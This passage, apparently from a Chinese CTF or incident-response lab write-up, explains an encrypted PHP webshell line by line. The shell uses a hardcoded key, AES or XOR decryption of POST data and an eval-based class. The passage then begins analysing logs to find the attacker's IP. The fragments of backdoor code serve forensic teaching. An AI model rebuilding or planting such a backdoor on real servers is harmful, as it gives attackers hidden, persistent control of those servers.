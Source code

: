     * 启动一个新的会话或继续当前会话。
3. ​`$key="e45e329feb5d925b";`​

    * 设置一个密钥，这个密钥是一个 16 字节的字符串，通常是某个32位MD5值的前16位。
4. ​`key;`​

    * 将密钥存储在会话变量中。
5. ​`session_write_close();`​

    * 写入会话数据并关闭会话存储，以优化性能。
6. ​`$post=file_get_contents("php://input");`​

    * 获取原始 POST 数据。这通常用于接收二进制数据或较大的数据块。
7. 检查是否加载了 `openssl`​ 扩展:

    * ​`if(!extension_loaded('openssl'))`​

      * 如果没有加载 `openssl`​ 扩展，则使用 XOR 和 Base64 解码。

        * ​`base64_decode`​ 解码 POST 数据。
        * 使用 XOR 操作对数据进行解密，每个字符与密钥的对应字符进行异或运算。
    * ​`else`​

      * 如果加载了 `openssl`​ 扩展，则使用 AES-128 加密算法解密数据。

        * ​`openssl_decrypt`​ 解密 POST 数据，使用 AES128 和密钥。
8. ​`explode('|', $post);`​

    * 将解密后的数据用 `|`​ 分割成一个数组，第一个元素是函数名，第二个元素是参数。
9. 定义一个类 `C`​:

    * ​`class C{public function __invoke(p."");}}`​

      * 这个类定义了一个魔术方法 `__invoke`​，它接受一个参数 `$p`​ 并执行 `eval($p."");`​。
      * ​`eval`​ 函数会执行传入的 PHP 代码，这是一种非常危险的函数，允许执行任意 PHP 代码。
10. ​`@call_user_func(new C(),$params);`​

     * 使用 `call_user_func`​ 调用类 `C`​ 的实例，并将参数 `$params`​ 传递给它。
     * 最终的效果是执行解密后从 POST 数据中提取出来的 PHP 代码。

**简单总结**

这段代码实际上是一个加密的后门程序。它通过接收加密的数据，然后解密并执行其中的 PHP 代码。这使得攻击者可以通过发送特定的加密请求来执行任意的 PHP 代码，从而完全控制服务器。

**主要危险点包括：**

* **使用** **​`eval`​**​ **函数执行任意 PHP 代码。**
* **通过加密隐藏恶意代码，难以被普通的扫描工具检测到。**
* **利用会话和加密机制，使得攻击通信难以被识别和拦截。**

这种后门程序常用于网络攻击中的持久访问，通过隐蔽手段保持对受感染服务器的控制。

#### 步骤#2

##### 通过本地 PC RDP到服务器并且分析黑客攻击成功的 IP 为多少,将黑客 IP 作为 FLAG 提交;

 **&lt;font color=&quot;#ff0000&quot;&gt;解题思路&lt;/font&gt;**

**题目让我们提交黑客的IP，这种没什么说的，基本上就是分析日志了（在别的文章中也强调很多遍，分析日志，这里就不再强调了），那就找PHPStudy_pro存放日志的地方呗；**

定位到了，Nginx日志但是发现大小都是0，所以那这里就不是Nginx日志了，去看看Apache2的日志；
